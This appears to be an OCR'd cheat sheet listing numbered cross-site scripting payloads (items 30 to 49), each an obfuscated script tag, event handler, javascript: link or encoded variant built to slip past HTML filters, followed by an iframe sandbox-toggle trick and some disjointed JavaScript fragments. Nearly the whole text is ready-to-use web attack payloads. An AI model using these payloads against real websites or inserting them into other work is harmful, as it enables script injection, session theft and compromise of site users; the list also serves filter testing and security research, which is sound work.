 30) <script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
 
31)  <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script ​​​​​​​​​​​​
 
32) <object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
 
33) <script>+-+-1-+-+alert(1)</script>
 
34) <body/onload=&lt;!--&gt;&#10alert(1)>
 
35) <script itworksinallbrowsers>/*<script* */alert(1)</script ​
 
36) <img src ?itworksonchrome?\/onerror = alert(1)​​​
 
37) <svg><script>//&NewLine;confirm(1);</script </svg>
 
38) <svg><script onlypossibleinopera:-)> alert(1)
 
39) <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa  aaaaaaaaa aaaaaaaaaa  href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
 
40) <script x> alert(1) </script 1=2
 
41) <div/onmouseover='alert(1)'> style="x:">
 
42)  <--`<img/src=` onerror=alert(1)> --!>
 
43)  <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script> ​
 
44) <div  style="position:absolute;top:0;left:0;width:100%;height:100%"  onmouseover="prompt(1)" onclick="alert(1)">x</button>​
 
45) "><img src=x onerror=window.open('https://www.google.com/');>
%22%3E%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E
&#x22;&#x3E;&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;
&#34&#62&#60&#115&#99&#114&#105&#112&#116&#62&#97&#108&#101&#114&#116&#40&#49&#41&#60&#47&#115&#99&#114&#105&#112&#116&#
62Ij48c2NyaXB0PmFsZXJ0KDEpPC9zY3JpcHQ+
 
46) <form><button formaction=javascript&colon;alert(1)>CLICKME
 
47) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
48) <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>​
 
49) <iframe  src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
 
<iframe
 id="test"
 src="http://html5sec.org/xssme?xss=%20href=javascript:alert(location.host)%20x="
 sandbox
style="width: 100%; height: 100%;"></iframe>
 
<script>
 var iframe = document.getElementById('test');
 iframe.addEventListener('load', function() {
  iframe.sandbox = 'allow-scripts';
 });
</script>
a=o.a;
1&&0//0
1||2//1
1&&2//2
i=alert
0||1//1 
\u9999(1)